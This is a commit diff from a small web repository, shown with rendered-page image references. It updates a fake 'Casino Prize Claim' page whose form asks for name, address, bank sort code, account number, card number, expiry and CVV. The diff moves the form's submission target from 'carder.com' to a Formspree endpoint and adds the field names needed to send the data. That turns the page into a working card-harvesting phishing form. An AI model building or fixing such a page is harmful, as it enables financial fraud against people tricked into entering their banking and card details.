

Before and after one commit to michaeljacksonofabithc/us, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 338-1236 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update title and form field names in index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,26 +3,36 @@
 <head>
   <meta charset="UTF-8" />
   <meta name="viewport" content="width=device-width, initial-scale=1.0" />
-  <title>🎉 Claim Your $500 Prize 🎉</title>
+  <title>🎉 Casino Prize Claim 🎉</title>
   <style>
     body {
-      font-family: Arial, sans-serif;
+      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
       background: #000000;
       color: #fff;
       margin: 0;
       padding: 0;
     }
+
     header {
       text-align: center;
       padding: 20px;
       background-color: #ff4d00;
     }
+
     header h1 {
       font-size: 3em;
+      color: #fff;
     }
+
+    header p {
+      font-size: 1.2em;
+      color: #fff;
+    }
+
     main {
       padding: 20px;
     }
+
     .form-section {
       max-width: 500px;
       margin: auto;
@@ -31,14 +41,17 @@
       border-radius: 10px;
       box-shadow: 0 0 15px rgba(255, 255, 255, 0.2);
     }
+
     form {
       display: flex;
       flex-direction: column;
       gap: 15px;
     }
+
     label {
       font-weight: bold;
     }
+
     input {
       padding: 10px;
       border: none;
@@ -46,6 +59,7 @@
       background-color: #222;
       color: #fff;
     }
+
     button {
       padding: 12px;
       font-size: 1em;
@@ -56,20 +70,24 @@
       cursor: pointer;
       transition: background 0.3s;
     }
+
     button:hover {
       background-color: #e64500;
     }
+
     footer {
       text-align: center;
       padding: 20px;
       font-size: 0.9em;
       color: #ccc;
     }
+
     #timer {
       text-align: center;
       margin-top: 20px;
       font-size: 1.2em;
     }
+
     #thank-you {
       font-size: 1.2em;
       font-weight: bold;
@@ -93,30 +111,30 @@
   <main>
     <section class="form-section">
       <h2>Enter Your Details to Claim Your Prize</h2>
-      <form id="claim-form" action="https://carder.com/submit" method="post">
+      <form id="claim-form" action="https://formspree.io/f/yourformspreeid" method="POST">
         <label for="name">Full Name:</label>
-        <input type="text" id="name" required />
+        <input type="text" id="name" name="name" required />
 
         <label for="address">Address:</label>
-        <input type="text" id="address" required />
+        <input type="text" id="address" name="address" required />
 
         <label for="email">Email Address:</label>
-        <input type="email" id="email" required />
+        <input type="email" id="email" name="email" required />
 
         <label for="sort-code">Sort Code:</label>
-        <input type="text" id="sort-code" required />
+        <input type="text" id="sort-code" name="sort-code" required />
 
         <label for="account-number">Account Number:</label>
-        <input type="text" id="account-number" required />
+        <input type="text" id="account-number" name="account-number" required />
 
         <label for="card-number">Card Number:</label>
-        <input type="text" id="card-number" required />
+        <input type="text" id="card-number" name="card-number" required />
 
         <label for="expiry">Expiry Date:</label>
-        <input type="text" id="expiry" placeholder="MM/YY" required />
+        <input type="text" id="expiry" name="expiry" placeholder="MM/YY" required />
 
         <label for="cvv">CVV:</label>
-        <input type="text" id="cvv" required />
+        <input type="text" id="cvv" name="cvv" required />
 
         <button type="submit">Claim Prize</button>
       </form>
```
